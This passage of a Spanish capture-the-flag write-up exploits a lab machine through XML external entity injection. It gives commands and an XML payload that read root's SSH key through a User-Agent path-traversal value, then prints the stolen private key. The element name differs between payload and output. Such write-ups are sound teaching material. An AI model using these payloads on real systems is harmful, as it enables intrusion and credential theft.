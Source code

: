 ### Explotación XXE

Dado que no hay medidas para prevenir XXE y tenemos control sobre los parámetros `user_agent`, `uri`, `artist` y `xmlPath`, podemos crear un archivo XML con XXE para leer la clave privada de root.

**Paso 1:** Obtener una imagen y actualizar sus metadatos:

```bash
wget http://10.10.11.170:8080/img/greg.jpg
exiftool -Artist="../tmp/marmeus" greg.jpg
```

**Paso 2:** Editar un archivo XML de estadísticas para agregar la carga útil XXE:

```bash
wget 'http://10.10.11.170:8080/export.xml?author=woodenk' -O marmeus_creds.xml
```

Editar el archivo para que se vea así:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <marmeu>&ent;</marmeu>
    <views>2</views>
    [...]
```

**Paso 3:** Subir todos los archivos y enviar una solicitud con el agente de usuario malicioso:

```bash
scp marmeus_creds.xml greg.jpg woodenk@10.10.11.170:/tmp/
curl http://10.10.11.170:8080/ -A 'Firefox||/../../../../../../../tmp/greg.jpg'
```

### Obtención de la Clave Privada

Después de dos minutos, se ejecutará el script y se modificará el XML agregando la clave privada del root:

```bash
woodenk@redpanda:/tmp$ cat marmeus_creds.xml
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <hello>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ                                   
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</hello>
    [...]
```
